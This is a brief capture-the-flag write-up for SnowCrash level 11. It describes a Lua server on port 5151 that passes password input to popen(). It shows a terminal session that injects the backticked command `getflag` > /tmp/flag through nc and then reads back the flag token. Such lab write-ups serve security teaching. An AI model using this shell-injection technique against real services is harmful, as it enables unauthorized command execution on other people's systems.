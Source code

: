 # LEVEL 11

- We read the level11.lua to understand that it create a webserver listening on PORT 5151
- When sending a request with nc localhost 5151 we're given a password prompt
- In the file we notice the script uses popen() function which expand shell command and get its result

```
level11@SnowCrash:~$ nc localhost 5151
Password: `getflag` > /tmp/flag
Erf nope..
level11@SnowCrash:~$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
